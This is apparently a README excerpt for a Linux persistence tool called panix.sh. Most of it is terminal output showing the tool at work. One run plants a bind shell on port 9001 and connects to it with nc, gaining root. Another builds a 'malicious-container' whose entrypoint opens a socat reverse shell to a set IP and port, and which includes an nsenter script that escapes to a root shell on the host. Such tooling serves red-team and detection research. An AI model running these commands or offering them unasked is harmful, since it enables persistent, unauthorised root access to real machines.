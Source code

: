 ```
```
When setting up a persistence mechanism, the script will let you know whether it worked, and in cases where information is needed to work with the persistence mechanism, additional information is provided. For example the bind shell mechanism:
```
ruben@ubuntu2204:~$ sudo ./panix.sh --bind-shell --default --architecture x64
[+] Bind shell binary /tmp/bd64 created and executed in the background.
[+] The bind shell is listening on port 9001.
[+] To interact with it from a different system, use: nc -nv <IP> 9001
[+] Bind shell persistence established!
```
Allowing you to interact with the bind shell:
```
❯ nc -nv 192.168.211.130 9001
(UNKNOWN) [192.168.211.130] 9001 (?) open
whoami
root
```
The same goes for mechanisms that have additional built-in features such as the Docker persistence mechanism, with a built-in root host escape:
```
ruben@ubuntu2204:~$ sudo ./panix.sh --malicious-container --ip 192.168.211.131 --port 330
[+] Building 10.4s (9/9) FINISHED                                                                                                                                            docker:default
 => [internal] load build definition from Dockerfile                                                                                                                                   0.0s
 => => transferring dockerfile: 722B                                                                                                                                                   0.0s
 => [internal] load metadata for docker.io/library/alpine:latest                                                                                                                       2.1s
 => [internal] load .dockerignore                                                                                                                                                      0.0s
 => => transferring context: 2B                                                                                                                                                        0.0s
 => [1/5] FROM docker.io/library/alpine:latest@sha256:b89d9c93e9ed3597455c90a0b88a8bbb5cb7188438f70953fede212a0c4394e0                                                                 0.8s
 => => resolve docker.io/library/alpine:latest@sha256:b89d9c93e9ed3597455c90a0b88a8bbb5cb7188438f70953fede212a0c4394e0                                                                 0.0s
 => => sha256:b89d9c93e9ed3597455c90a0b88a8bbb5cb7188438f70953fede212a0c4394e0 1.85kB / 1.85kB                                                                                         0.0s
 => => sha256:dabf91b69c191a1a0a1628fd6bdd029c0c4018041c7f052870bb13c5a222ae76 528B / 528B                                                                                             0.0s
 => => sha256:a606584aa9aa875552092ec9e1d62cb98d486f51f389609914039aabd9414687 1.47kB / 1.47kB                                                                                         0.0s
 => => sha256:ec99f8b99825a742d50fb3ce173d291378a46ab54b8ef7dd75e5654e2a296e99 3.62MB / 3.62MB                                                                                         0.4s
 => => extracting sha256:ec99f8b99825a742d50fb3ce173d291378a46ab54b8ef7dd75e5654e2a296e99                                                                                              0.2s
 => [2/5] RUN apk add --no-cache bash socat sudo util-linux procps                                                                                                                     4.4s
 => [3/5] RUN adduser -D lowprivuser                                                                                                                                                   0.6s
 => [4/5] RUN echo '#!/bin/bash' > /usr/local/bin/entrypoint.sh && echo 'while true; do /bin/bash -c "socat exec:\"/bin/bash\",pty,stderr,setsid,sigint,sane tcp:192.168.211.131:330"  0.8s
 => [5/5] RUN echo '#!/bin/bash' > /usr/local/bin/escape.sh && echo 'sudo nsenter -t 1 -m -u -i -n -p -- su -' >> /usr/local/bin/escape.sh && chmod +x /usr/local/bin/escape.sh && ec  0.8s
 => exporting to image                                                                                                                                                                 0.6s
 => => exporting layers                                                                                                                                                                0.6s
 => => writing image sha256:b36eb0d13ee1a0c57c3e6a1ee0255ef474986f44d65b177c539b2ffb1d248790                                                                                           0.0s
 => => naming to docker.io/library/malicious-container                                                                                                                                 0.0s
```